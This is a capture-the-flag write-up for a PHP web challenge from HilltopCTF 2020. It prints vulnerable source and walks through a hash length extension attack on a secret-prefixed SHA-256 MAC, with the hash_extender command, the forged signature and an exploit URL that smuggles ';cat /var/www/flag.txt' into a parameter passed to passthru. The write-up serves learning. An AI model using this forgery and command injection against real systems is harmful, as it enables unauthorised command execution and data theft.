 ```yaml
---
title: What Is The Deadly Bug Here?
layout: post
competition: hilltopctf2020
---
```

## Description


![c9fd42053c1860b5e8adc479279ffeef.png](/assets/images/ec6165ad18424803876d01a024adcda0.png)


## Solving

Given a simple website that looks like this.

![0956ba0662dbb4f93d2dcaa8e8f2527a.png](/assets/images/1f07699a5c3a4904a02dc7d34bc68f56.png)

Examining the response of the request, we could found some interesting headers.

![662190ad5e6f3fa71a40cf56ef3f4240.png](/assets/images/64d64912595a4428b87bab10e38b0aeb.png)


Sending the `?debug` parameter to the website showed us the source code of the challenge. 

```
<?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

There is some interesting information that we can get by statically analyzing the source code. Here are them:
1. `$greet` variable is supposed to contain a name of a file; and we can control the value as this line of code shows:
    ```
    if (isset($_GET['greet'])) $greet = $_GET['greet'];
    ```
2. If you get the reference, this challenge is based on [this](https://www.youtube.com/watch?v=MpeaSNERwQA) video on Youtube by LiveOverflow. `hash_hmac` function in that video is more or less the same with `patched` function in this challenge, but supplying an array into the function would not work anymore because of this line of code:
    ```
    if (is_string($string)) {
        ...
    }
    ```
    Anyway, if you don't understand what I'm talking about, please watch the video, it's all there :).
3. The `patched` function validates our input and returns a message-digested hash value from the input. The difference between this and the function in [that](https://www.youtube.com/watch?v=MpeaSNERwQA) video is: with the intention of patching (or should I say securing) the application, this challenge uses `hash` function instead of `hash_hmac` function to generate the hash value. By doing that, the application is potentially vulnerable to *Hash Length Extension Attack*. We'll come back to this very soon.
4. This line of code:
    ```
    $greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);
    ```
    basically strips out every special character from the `$greet` variable.
5. If the `mac` we provide (`$_GET['mac'`) is not equals to the generated `mac` value, the application is terminated. So we need to make sure that both are the same.
6. Finally, this line of code:
    ```
    echo passthru("cat $greet 2>&1", $err);
    ```
    is how we are gonna get the flag. The `$greet` variable, which we can control, will be passed into `passthru` function; which will then be executed as a shell command.

*Hash Length Extension Attack* is a type of attack where an attacker can use a computed hash (Hash(*message1*)) and the length of the message (message1*) to calculate another hash (Hash(*message1* || *message2*)) for an attacker-controlled message (message2). An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data (read more [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)).

This challenge gives us a hash value and it's original data by sending the `X-MY-GREET` and `X-MY-GREET-MAC` header on the response. Thus, without knowing the secret, we can generate a valid hash for `secret + greet.txt + <arbitrary evil data>` without knowing the value of the prepended secret. We can use *bash command separation* to execute arbitrary command after reading the value of `greet.txt`. Simply put, this would be the payload we want to be passed to the `passthru` function:
```
echo greet.txt;cat /var/www/flag.txt 2>&1
```

The location of the flag can be found on the hint published for this challenge.

There are many tools out there, but for this writeup, [this](https://github.com/iagox86/hash_extender) tool from Ron Bowes will help us doing the *Length Extension Attack*. And here's how we used them:
```
hash_extender -d 'aboutme.txt' -s cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c -a ';cat /var/www/flag.txt' -f sha256 -l 25 --out-data-format=html
```
From the manual:
`-d` is the original string that we're going to extend
`-s` is the original signature or the hash value of the original string
`-a` is the data that we want to append to the original string
`-f` is the hash algorithm
`-l` is the length of the secret, which is leaked when we visit `secret.php` page

![5fb70b6dbb0ed2b07a53175556086711.png](/assets/images/2d86a44f5e294cadbda6a4d893b1b275.png)

Then we get our new hash and new message.
```
New signature: 3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c
New string: aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt

```

![98365288a99edd441e4e4743df0298b5.png](/assets/images/e49e327073c740f7a2194e00ef28c372.png)

Don't worry about the null bytes in the new message, because fortunately the challenge used `filter_var` and those null bytes will be stripped before being passed into `passthru` function.

Send the hash and the message to the application like this:
```
http://192.81.210.234:10002/?mac=3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c&greet=aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt
```

And there's the flag.



![44cba8a2af6184dd0fe48900c4f53949.png](/assets/images/3d59ab4e510d4dad9a613a30c21e5100.png)



## The Flag
Flag is **HilltopCTF{uh...1think_1mad3_itwors3_s00wy}**
